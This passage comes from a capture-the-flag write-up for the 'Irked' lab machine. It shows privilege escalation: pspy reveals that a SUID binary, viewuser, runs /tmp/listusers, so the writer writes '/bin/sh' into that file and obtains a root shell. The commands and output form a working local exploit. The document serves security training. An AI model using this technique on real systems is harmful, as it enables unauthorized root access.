 We can run the binary with `pspy` running in the background to understand what it does.

### PSPY Analysis

```bash
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-01 04:34 (:0)
djmardov pts/0        2020-09-01 07:57 (10.10.14.21)
sh: 1: /tmp/listusers: not found
```
The binary throws an error stating that the file `/tmp/listusers` does not exist.

```bash
2020/09/01 00:30:26 CMD: UID=0    PID=1      | /sbin/init
2020/09/01 00:30:34 CMD: UID=1000 PID=2048   | -bash
2020/09/01 00:30:34 CMD: UID=1000 PID=2049   | sh -c who
2020/09/01 00:30:34 CMD: UID=1000 PID=2050   | sh -c who
2020/09/01 00:30:34 CMD: UID=1000 PID=2053   | sh -c /tmp/listusers
2020/09/01 00:30:34 CMD: UID=1000 PID=2052   | sh -c /tmp/listusers
2020/09/01 00:30:41 CMD: UID=1000 PID=2054   | -bash
2020/09/01 00:30:41 CMD: UID=1000 PID=2055   | sh -c who
2020/09/01 00:30:41 CMD: UID=1000 PID=2056   | sh -c who
2020/09/01 00:30:41 CMD: UID=1000 PID=2057   | sh -c /tmp/listusers
2020/09/01 00:30:41 CMD: UID=1000 PID=2058   | sh -c /tmp/listusers
2020/09/01 00:32:06 CMD: UID=1000 PID=2059   | -bash
2020/09/01 00:32:06 CMD: UID=1000 PID=2060   | sh -c who
2020/09/01 00:32:06 CMD: UID=1000 PID=2061   | sh -c who
2020/09/01 00:32:06 CMD: UID=1000 PID=2062   | viewuser
2020/09/01 00:32:06 CMD: UID=1000 PID=2063   | sh -c /tmp/listusers
2020/09/01 00:32:21 CMD: UID=0    PID=2064   |
```

`pspy` shows that the binary is executing the contents of `/tmp/listusers`


Lets echo `/bin/sh` to `/tmp/listusers` and run `viewusers`.

```bash
djmardov@irked:/tmp$ echo "/bin/sh" > /tmp/listusers
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-01 04:34 (:0)
djmardov pts/0        2020-09-01 07:57 (10.10.14.21)
sh: 1: /tmp/listusers: Permission denied
djmardov@irked:/tmp$ chmod 777 listusers
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-01 04:34 (:0)
djmardov pts/0        2020-09-01 07:57 (10.10.14.21)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
#
```

And we are root.